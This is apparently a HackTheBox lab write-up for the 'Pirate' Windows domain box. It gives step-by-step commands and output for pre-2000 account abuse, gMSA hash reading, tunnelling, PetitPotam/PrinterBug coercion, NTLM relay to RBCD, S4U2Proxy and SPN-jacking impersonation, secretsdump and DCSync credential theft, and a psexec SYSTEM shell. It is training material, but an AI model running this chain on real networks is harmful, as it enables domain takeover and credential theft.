

# HackTheBox — Pirate (Hard, Windows)
## Full Walkthrough

---

## Box Info

| Field | Value |
|-------|-------|
| **Name** | Pirate |
| **OS** | Windows Server 2019 |
| **Difficulty** | Hard |
| **Domain** | pirate.htb |
| **DC** | DC01.pirate.htb |
| **Starting Creds** | pentest / p3nt3st2025!& |

## Attack Path Overview



---

## Phase 1: Initial Enumeration

### Hosts File & Time Sync

Kerberos requires hostname resolution and is extremely time-sensitive (max 5-minute tolerance). We start by setting up DNS and syncing our clock with the DC.

```bash
echo '10.129.x.x DC01.pirate.htb pirate.htb DC01' | sudo tee -a /etc/hosts
sudo ntpdate pirate.htb
```

The DC had a significant time offset (+7h). Kerberos will fail with `KRB_AP_ERR_SKEW` if the clock difference exceeds 5 minutes. Run `sudo ntpdate pirate.htb` before any Kerberos operations throughout this box.

### Credential Validation

We validate the provided credentials across multiple protocols:

```bash
nxc smb pirate.htb -u 'pentest' -p 'p3nt3st2025!&'     # ✅ SMB works
nxc ldap pirate.htb -u 'pentest' -p 'p3nt3st2025!&'     # ✅ LDAP works
nxc winrm pirate.htb -u 'pentest' -p 'p3nt3st2025!&'    # ❌ WinRM denied
```

Key finding: LDAP signing is **disabled** on DC01 (`signing:None, channel binding:Never`). This will be critical later for NTLM relay.

### Domain User Enumeration

```bash
nxc ldap pirate.htb -u 'pentest' -p 'p3nt3st2025!&' --users
```

**Users discovered:**
- `Administrator` — Domain Admin
- `a.white` — Regular user
- `a.white_adm` — Admin account (paired with a.white, member of IT group)
- `j.sparrow` — Standard user
- `pentest` — Our starting account
- `krbtgt` — Kerberos service account

The `a.white` / `a.white_adm` pairing suggests privilege separation — investigating the relationship between these accounts will be important.

### Kerberoasting Attempt

```bash
nxc ldap pirate.htb -u 'pentest' -p 'p3nt3st2025!&' -k --kerberoasting output.txt
```

Found two kerberoastable accounts: `a.white_adm` and `gMSA_ADFS_prod$`. However, cracking with rockyou.txt failed — this is a rabbit hole. The intended path doesn't require cracking these hashes.

### BloodHound Enumeration

```bash
bloodhound-python -dc 'dc01.pirate.htb' -d 'pirate.htb' -u 'pentest' -p 'p3nt3st2025!&' -ns $IP --zip -c All
```

BloodHound revealed critical information:
- `pentest` is a member of **Pre-Windows 2000 Compatible Access** (via Authenticated Users)
- `MS01$` has **ReadGMSAPassword** over `gMSA_ADFS_prod$`
- `a.white_adm` has **Constrained Delegation** to `HTTP/WEB01.pirate.htb`
- `a.white_adm` has **WriteSPN** on both DC01 and WEB01

---

## Phase 2: Pre-Windows 2000 Computer Account Exploitation

### What Are Pre-2K Computer Accounts?

When a computer account is created with "pre-Windows 2000 compatibility," its initial password is set to the lowercase computer name (without the `$`). For example, `MS01$` gets password `ms01`. This is a legacy feature from the Windows NT era.

### Discovering Pre-2K Accounts

NetExec has a dedicated module to find these:

```bash
nxc ldap pirate.htb -u 'pentest' -p 'p3nt3st2025!&' -M pre2k
```

**Result:**
```
PRE2K    Pre-created computer account: MS01$
PRE2K    Pre-created computer account: EXCH01$
PRE2K    [+] Successfully obtained TGT for ms01@pirate.htb
PRE2K    [+] Successfully obtained TGT for exch01@pirate.htb
```

Both `MS01$` and `EXCH01$` have default passwords. The module even obtains TGTs automatically.

### Understanding STATUS_NOLOGON_WORKSTATION_TRUST_ACCOUNT

If you try SMB authentication with these accounts:

```bash
nxc smb pirate.htb -u 'MS01$' -p 'ms01'
# Result: STATUS_NOLOGON_WORKSTATION_TRUST_ACCOUNT
```

This error **looks like failure but means the password is correct**. The account type (workstation trust) simply can't do interactive SMB logons. Use Kerberos or LDAP instead.

---

## Phase 3: gMSA Password Extraction

### What is a gMSA?

A **Group Managed Service Account** has a 240+ character auto-rotated password stored in AD. Only specifically authorized accounts can read the `msDS-ManagedPassword` attribute. `MS01$` is authorized to read both gMSA passwords because it's a member of "Domain Secure Servers."

### Extracting Hashes via Kerberos LDAP

NTLM over LDAP fails due to channel binding, so we use Kerberos authentication:

```bash
impacket-getTGT 'pirate.htb/MS01$:ms01'
export KRB5CCNAME=MS01\$.ccache
nxc ldap dc01.pirate.htb -u 'MS01$' -p 'ms01' -k --gmsa
```

**Result:**
```
Account: gMSA_ADCS_prod$    NTLM: 25c7f0eb586ed3a91375dbf2f6e4a3ea
Account: gMSA_ADFS_prod$    NTLM: fd9ea7ac7820dba5155bd6ed2d850c09
```

The `-k` flag uses Kerberos authentication, which satisfies LDAP channel binding requirements. The `--gmsa` flag tells NetExec to read the gMSA password attribute.

---

## Phase 4: Foothold — WinRM to DC01

### Connecting as gMSA_ADFS_prod$

`gMSA_ADFS_prod$` is a member of **Remote Management Users**, granting WinRM access:

```bash
evil-winrm -i 10.129.x.x -u 'gMSA_ADFS_prod$' -H 'fd9ea7ac7820dba5155bd6ed2d850c09'
```

### Situational Awareness

```powershell
whoami          # pirate\gmsa_adfs_prod$
hostname        # DC01
ipconfig        # 10.129.x.x (external), 192.168.100.1 (internal vEthernet)
```

**Key findings:**
- We're on DC01 (the Domain Controller)
- Internal network: 192.168.100.0/24 — WEB01 is at 192.168.100.2
- No admin privileges — can't dump credentials directly

---

## Phase 5: Pivoting with Ligolo-ng

WEB01 (192.168.100.2) is only accessible from DC01. We need a tunnel to reach it from our attack box.

### Setting Up Ligolo-ng

**Attack box (proxy):**
```bash
sudo ip tuntap add user $(whoami) mode tun ligolo
sudo ip link set ligolo up
./proxy -selfcert -laddr 0.0.0.0:11601
```

**DC01 (agent via Evil-WinRM):**
```powershell
upload /path/to/agent.exe
.\agent.exe -connect 10.10.x.x:11601 -ignore-cert
```

**Ligolo proxy console:**
```
session
# Select the session
start
```

**Attack box (add route):**
```bash
sudo ip route add 192.168.100.0/24 dev ligolo
```

**Why Ligolo-ng?** It creates a TUN interface that routes traffic natively through the compromised host. Unlike SOCKS proxies (chisel), tools work without proxychains.

**Verify WEB01 is reachable:**
```bash
nxc smb 192.168.100.2
# Should show: WEB01, signing:False
```

---

## Phase 6: NTLM Coercion & Relay → RBCD

### The Attack Concept

1. **Coerce** WEB01 to authenticate to our relay server
2. **Relay** WEB01$'s credentials to LDAP on DC01
3. **Set RBCD** — allow an attacker-controlled computer to impersonate users on WEB01

This works because:
- WEB01 is vulnerable to authentication coercion (PetitPotam, PrinterBug)
- LDAP signing is disabled on DC01, allowing NTLM relay to LDAP
- Machine accounts can modify certain attributes on themselves (RBCD)

### Step 1: Start the Relay Server

```bash
sudo /home/certifa/.local/bin/ntlmrelayx.py -t ldap://DC01.pirate.htb -i --delegate-access -smb2support --remove-mic
```

**Flags explained:**
- `-t ldap://DC01.pirate.htb` — relay captured auth to LDAP on DC01
- `-i` — spawn interactive LDAP shell on success
- `--delegate-access` — configure RBCD automatically
- `-smb2support` — enable SMB2 protocol
- `--remove-mic` — strip NTLM Message Integrity Code to bypass signing for SMB→LDAP relay

### Step 2: Trigger Coercion from WEB01

In a new terminal:

```bash
nxc smb 192.168.100.2 -u 'gMSA_ADFS_prod$' -H 'fd9ea7ac7820dba5155bd6ed2d850c09' -M coerce_plus -o LISTENER=10.10.x.x
```

**Result:**
```
COERCE_PLUS    VULNERABLE, PetitPotam
COERCE_PLUS    Exploit Success, lsarpc\EfsRpcAddUsersToFile
COERCE_PLUS    VULNERABLE, PrinterBug
COERCE_PLUS    Exploit Success, spoolss\RpcRemoteFindFirstPrinterChangeNotificationEx
```

Multiple coercion methods succeed. WEB01 authenticates to our relay.

### Step 3: Relay Succeeds

The ntlmrelayx output shows:

```
[*] Authenticating connection from PIRATE/WEB01$@10.129.x.x against ldap://DC01.pirate.htb SUCCEED
[*] Started interactive Ldap shell via TCP on 127.0.0.1:11000
```

### Step 4: LDAP Shell — Add Computer & Set RBCD

Connect to the interactive LDAP shell:

```bash
nc 127.0.0.1 11000
```

```
# start_tls
StartTLS succeded, you are now using LDAPS!

# add_computer ATTACKER$
Adding new computer with username: ATTACKER$ and password: ~0G1;#$If,ukl^l result: OK

# set_rbcd WEB01$ ATTACKER$
Found Target DN: CN=WEB01,CN=Computers,DC=pirate,DC=htb
Found Grantee DN: CN=ATTACKER,CN=Computers,DC=pirate,DC=htb
Delegation rights modified successfully!
ATTACKER$ can now impersonate users on WEB01$ via S4U2Proxy
```

**What just happened:**
1. `start_tls` — upgrades to encrypted LDAP (required for adding computer objects)
2. `add_computer` — creates a machine account we fully control
3. `set_rbcd` — sets `msDS-AllowedToActOnBehalfOfOtherIdentity` on WEB01 to trust ATTACKER$

This means: **WEB01 now trusts ATTACKER$ to impersonate any user when accessing WEB01's services.**

---

## Phase 7: S4U2Proxy — Administrator on WEB01

### Request Administrator Ticket

Using our attacker machine account, request a Kerberos ticket as Administrator to WEB01:

```bash
impacket-getST 'pirate.htb/ATTACKER$:~0G1;#$If,ukl^l' \
  -spn HTTP/WEB01.pirate.htb \
  -impersonate Administrator \
  -dc-ip 10.129.x.x
```

**Result:**
```
[*] Impersonating Administrator
[*] Requesting S4U2self
[*] Requesting S4U2Proxy
[*] Saving ticket in Administrator@HTTP_WEB01.pirate.htb@PIRATE.HTB.ccache
```

**How S4U2Proxy works:**
1. ATTACKER$ says to the DC: "I need to act as Administrator to HTTP/WEB01"
2. DC checks WEB01's `msDS-AllowedToActOnBehalfOfOtherIdentity` — ATTACKER$ is listed
3. DC issues a service ticket for Administrator to HTTP/WEB01
4. We use this ticket to authenticate as Administrator

### WinRM to WEB01 as Administrator

```bash
export KRB5CCNAME=Administrator@HTTP_WEB01.pirate.htb@PIRATE.HTB.ccache
evil-winrm -i WEB01.pirate.htb -r PIRATE.HTB -K $KRB5CCNAME
```

**User flag captured from `C:\Users\a.white\Desktop\user.txt`!** ✅

---

## Phase 8: Credential Extraction from WEB01

### secretsdump — LSA Secrets

With Administrator access on WEB01, dump all stored credentials:

```bash
impacket-secretsdump -k -no-pass WEB01.pirate.htb
```

**Key findings in LSA Secrets:**

```
[*] DefaultPassword
PIRATE\a.white:E2nvAOKSz5Xz2MJu
```

```
PIRATE\WEB01$:aad3b435b51404eeaad3b435b51404ee:feba09cf0013fbf5834f50def734bca9:::
```

**Why DefaultPassword exists:** `a.white` was configured for Windows auto-logon on WEB01. The plaintext password is stored in the registry under LSA Secrets, and secretsdump extracts it.

We also get WEB01$'s machine account hash — needed later for SPN removal.

---

## Phase 9: Password Reset — a.white → a.white_adm

### Why This Works

In AD, `a.white` has the "Reset Password" permission on `a.white_adm`. This is a common delegated administration model where a regular account manages its corresponding admin account.

### Performing the Reset

```bash
bloodyAD -d pirate.htb -u a.white -p 'E2nvAOKSz5Xz2MJu' --host DC01.pirate.htb set password 'a.white_adm' 'NewP@ss2026!'
```

**Result:**
```
[+] Password changed successfully!
```

### Verify Delegation Rights

```bash
nxc ldap DC01.pirate.htb -u a.white_adm -p 'NewP@ss2026!' --find-delegation
```

**Confirms:**
```
a.white_adm    Person    Constrained w/ Protocol Transition    http/WEB01.pirate.htb, HTTP/WEB01
```

`a.white_adm` has:
- **Constrained Delegation** to `HTTP/WEB01.pirate.htb`
- **WriteSPN** on both DC01 and WEB01 (from BloodHound)

---

## Phase 10: SPN-Jacking → Domain Admin

### The Concept

`a.white_adm` can request tickets as Administrator to `HTTP/WEB01.pirate.htb` via constrained delegation. But that only gives us WEB01 — not useful for Domain Admin.

**The trick:** SPNs are just AD attributes. If we move `HTTP/WEB01.pirate.htb` from WEB01 to DC01, Kerberos will issue tickets encrypted with DC01's key instead. Combined with `-altservice` to change HTTP to CIFS, we get file access to DC01 as Administrator.

### Step 1: Remove SPN from WEB01

Create `spn_remove.ldif`:
```
dn: CN=WEB01,CN=Computers,DC=pirate,DC=htb
changetype: modify
delete: servicePrincipalName
servicePrincipalName: HTTP/WEB01.pirate.htb
-
delete: servicePrincipalName
servicePrincipalName: HTTP/WEB01
```

Apply:
```bash
ldapmodify -x -H ldap://DC01.pirate.htb -D "PIRATE\\a.white_adm" -w 'NewP@ss2026!' -f spn_remove.ldif
```

**Why we can do this:** `a.white_adm` has WriteSPN on WEB01.

### Step 2: Add SPN to DC01

Create `spn_add.ldif`:
```
dn: CN=DC01,OU=Domain Controllers,DC=pirate,DC=htb
changetype: modify
add: servicePrincipalName
servicePrincipalName: HTTP/WEB01.pirate.htb
```

Apply:
```bash
ldapmodify -x -H ldap://DC01.pirate.htb -D "PIRATE\\a.white_adm" -w 'NewP@ss2026!' -f spn_add.ldif
```

**Why we can do this:** `a.white_adm` has WriteSPN on DC01.

**What happened:** `HTTP/WEB01.pirate.htb` now resolves to DC01 instead of WEB01. Kerberos doesn't know the difference.

### Step 3: Generate Administrator Ticket with altservice

```bash
getST.py PIRATE.HTB/a.white_adm:'NewP@ss2026!' \
  -spn HTTP/WEB01.pirate.htb \
  -impersonate Administrator \
  -dc-ip 10.129.x.x \
  -altservice CIFS/DC01.pirate.htb
```

**Result:**
```
[*] Impersonating Administrator
[*] Requesting S4U2self
[*] Requesting S4U2Proxy
[*] Changing service from HTTP/WEB01.pirate.htb@PIRATE.HTB to CIFS/DC01.pirate.htb@PIRATE.HTB
[*] Saving ticket in Administrator@CIFS_DC01.pirate.htb@PIRATE.HTB.ccache
```

**Why `-altservice` works:** The service name in a Kerberos S4U2Proxy ticket is not protected by the KDC's signature. We change `HTTP` to `CIFS` (file access) and target DC01. The ticket is encrypted with DC01's key (since the SPN resolves there now), so DC01 accepts it.

### Step 4: SYSTEM Shell on DC01

```bash
export KRB5CCNAME=Administrator@CIFS_DC01.pirate.htb@PIRATE.HTB.ccache
psexec.py -k -no-pass DC01.pirate.htb
```

**Result:**
```
[*] Found writable share ADMIN$
[*] Uploading file...
[*] Opening SVCManager on DC01.pirate.htb...

C:\Windows\system32> whoami
nt authority\system

C:\Windows\system32> type c:\users\administrator\desktop\root.txt
a1xxxxxxxxxxxxxxxxxxxxxxxxxxxxxx4
```

**Root flag captured!** ✅ 🏴‍☠️

---

## Bonus: DCSync for Domain Admin Hash

With SYSTEM on DC01, we can also extract the Domain Admin hash:

```bash
secretsdump.py -k -no-pass -just-dc-user administrator PIRATE.HTB/Administrator@DC01.pirate.htb
```

```
Administrator:500:aad3b435b51404eeaad3b435b51404ee:598295e78bd72d66f837997baf715171:::
```

---

## Flags

- **user.txt:** from `C:\Users\a.white\Desktop\` on WEB01
- **root.txt:** from `C:\Users\Administrator\Desktop\` on DC01

---

## Complete Attack Chain


---

## Key Takeaways

### Techniques Practiced

1. **Pre-Windows 2000 computer accounts** — `nxc ldap -M pre2k` finds them automatically. Default password = lowercase name. `STATUS_NOLOGON_WORKSTATION_TRUST_ACCOUNT` means password is correct.

2. **Kerberos time skew** — use `sudo ntpdate pirate.htb` to sync with DC before Kerberos operations. KRB_AP_ERR_SKEW = clock difference too large.

3. **gMSA password reading** — authorized computer accounts can read `msDS-ManagedPassword` via LDAP. Use `-k --gmsa` in NetExec.

4. **NTLM coercion + relay** — coerce authentication from one machine, relay to LDAP on DC where signing is disabled. `--remove-mic` bypasses integrity checks for SMB→LDAP relay.

5. **RBCD (Resource-Based Constrained Delegation)** — add attacker computer, set `msDS-AllowedToActOnBehalfOfOtherIdentity` on target, then S4U2Proxy to impersonate Administrator.

6. **LSA Secrets / DefaultPassword** — `secretsdump` extracts stored plaintext passwords from auto-logon configuration in the registry.

7. **SPN-Jacking** — WriteSPN + constrained delegation = move the SPN to a different target, abuse delegation to compromise it. `ldapmodify` with LDIF files for clean SPN manipulation.

8. **altservice in getST.py** — service names in S4U2Proxy tickets aren't signed. Change HTTP→CIFS for file access to any target.

### Tools Used

| Tool | Purpose |
|------|---------|
| netexec (nxc) | SMB/LDAP enum, gMSA reading, coercion, pre2k module |
| impacket-getTGT | Kerberos ticket acquisition |
| evil-winrm | WinRM remote shell |
| ligolo-ng | Network pivoting/tunneling |
| ntlmrelayx.py | NTLM relay with RBCD setup |
| impacket-getST | S4U2Proxy delegation abuse |
| impacket-secretsdump | Credential extraction |
| impacket-psexec | Remote code execution via SMB |
| bloodyAD | AD object manipulation (password reset) |
| ldapmodify | LDAP modifications via LDIF (SPN changes) |
| bloodhound-python | AD enumeration and attack path discovery |
| pypykatz | LSASS dump parsing (alternative to secretsdump) |
| ntpdate | Clock synchronization for Kerberos |
